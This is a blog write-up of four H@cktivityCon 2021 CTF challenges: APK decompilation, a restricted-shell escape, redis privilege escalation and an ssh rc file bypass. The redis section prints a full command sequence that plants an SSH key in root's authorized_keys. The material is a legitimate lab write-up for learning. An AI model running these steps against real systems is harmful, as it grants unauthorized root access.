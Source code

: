 +++
title = "H@cktivityCon 2021 CTF Writeup"
date = "2021-09-19"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["CTF"]
keywords = ["", ""]
description = ""
showFullContent = false
toc = true
images = ["/img/hacktivitycon-2021/hacktivity.jpeg"]
+++

<!--more-->
{{< image src="/img/hacktivitycon-2021/hacktivity.jpeg" alt="" position="center" style="border-radius: 8px;" >}}

## Introduction

H@cktivityCon 2021 was happening over the weekend and I participated in their ctf with team [@fr334aks](https://twitter.com/fr334aks). We managed position 49 out of 2527 teams.
This writeup is of the challenges I managed to solve.

## Challenges

### 1. Mobile: To Do

Challenge Description:

{{< image src="/img/hacktivitycon-2021/to-do-1.png" alt="" position="center" style="border-radius: 8px;" >}}

We are provided with an apk file. First thing I typically do with apk files is open them with jadx-gui. 

```sh
jadx-gui todo.apk
```

Here I first look at the AndroidManifest.xml to see the application entry point. 

{{< image src="/img/hacktivitycon-2021/to-do-2.png" alt="" position="center" style="border-radius: 8px;" >}}

For this app it's LoginActivity. It checks if the input provided is equal to `testtest` and if true it goes on to load MainActivity.

{{< image src="/img/hacktivitycon-2021/to-do-3.png" alt="" position="center" style="border-radius: 8px;" >}}

When we install the application and supply the password as `testtest` we get the flag.

{{< image src="/img/hacktivitycon-2021/to-do-5.png" alt="" position="center" style="border-radius: 8px;" >}}

{{< image src="/img/hacktivitycon-2021/to-do-6.png" alt="" position="center" style="border-radius: 8px;" >}}

Unfortunately I couldn't copy it out and typing it would have been a pain. Back on the MainActivity we see it loads MyDatabase.

{{< image src="/img/hacktivitycon-2021/to-do-4.png" alt="" position="center" style="border-radius: 8px;" >}}

When we look at MyDatabase, it loads an sqlite database `todos.db`. A lot of the times sqlitedb database in android apps are stored within
the apk.

{{< image src="/img/hacktivitycon-2021/to-do-7.png" alt="" position="center" style="border-radius: 8px;" >}}

Extracting the apk using apktool I was able to access the sqlitedb and extract the flag.

{{< image src="/img/hacktivitycon-2021/to-do-8.png" alt="" position="center" style="border-radius: 8px;" >}}

### 2. Miscellaneous: Shelle 

Challenge Description:

{{< image src="/img/hacktivitycon-2021/shelle-1.png" alt="" position="center" style="border-radius: 8px;" >}}

When we connect to the challenge, we get access to a restricted shell with only a few commands we can run.

{{< image src="/img/hacktivitycon-2021/shelle-2.png" alt="" position="center" style="border-radius: 8px;" >}}

When we read the assignment, we are told the flag is in the /opt directory.

{{< image src="/img/hacktivitycon-2021/shelle-3.png" alt="" position="center" style="border-radius: 8px;" >}}

Unfortunately we can't access it.

{{< image src="/img/hacktivitycon-2021/shelle-4.png" alt="" position="center" style="border-radius: 8px;" >}}

Next I tried to see if we can access any environment variables and see if the `$` character is forbidden as well.
Luckily this works.

{{< image src="/img/hacktivitycon-2021/shelle-5.png" alt="" position="center" style="border-radius: 8px;" >}}

I then ran `set` to list all environment variables. Looking through the list I saw one set to bash.

{{< image src="/img/hacktivitycon-2021/shelle-6.png" alt="" position="center" style="border-radius: 8px;" >}}

I was able to use it to escape the restricted shell and read the flag.

{{< image src="/img/hacktivitycon-2021/shelle-7.png" alt="" position="center" style="border-radius: 8px;" >}}

### 3. Miscellaneous: Redlike

Challenge Description:

{{< image src="/img/hacktivitycon-2021/redlike-1.png" alt="" position="center" style="border-radius: 8px;" >}}

After sshing into the challenge machine, I performed some local enumeration and when checking for running processes
we see redis running locally as root. Clearly this is the privesc path.

{{< image src="/img/hacktivitycon-2021/redlike-2.png" alt="" position="center" style="border-radius: 8px;" >}}

I immediately jumped to [hacktricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#ssh) and used the below commands to escalate privileges.

```sh
ssh-keygen -f redis

(echo -e "\n\n"; cat redis.pub; echo -e "\n\n") > spaced_key.txt

cat spaced_key.txt | redis-cli -h 127.0.0.1 -x set ssh_key

redis-cli -h 127.0.0.1

config set dir /root/.ssh

config set dbfilename "authorized_keys"

save

chmod 600 redis

ssh -i redis root@127.0.0.1
```

{{< image src="/img/hacktivitycon-2021/redlike-3.png" alt="" position="center" style="border-radius: 8px;" >}}

### 4. Race Car

Challenge Description:

{{< image src="/img/hacktivitycon-2021/racecar-1.png" alt="" position="center" style="border-radius: 8px;" >}}

I enjoyed this one as I was the second to solve it.

When we ssh into the challenge machine, the session is immediately closed when we provide the password.

{{< image src="/img/hacktivitycon-2021/racecar-2.png" alt="" position="center" style="border-radius: 8px;" >}}

I tried different techniques I knew for restricted shell bypass with ssh but none worked. I got an idea to use sftp and 
see what configuration files could be causing this behaviour.

With sftp we are not kicked out and can look at files. Two files seem to be of interest but only `rc` in .ssh has contents.

{{< image src="/img/hacktivitycon-2021/racecar-3.png" alt="" position="center" style="border-radius: 8px;" >}}

The rc file is the one responsible for getting us kicked out. I tried deleting it but that didn't work. However, since we have write 
permissions, I was able to overwrite it by uploading an empty file with the same name.

Once that was done we can ssh and get the flag.

{{< image src="/img/hacktivitycon-2021/racecar-4.png" alt="" position="center" style="border-radius: 8px;" >}}


## Conclusion

Thanks HackerOne, John Hammond and the CTF challenge creators, it was a fun one!
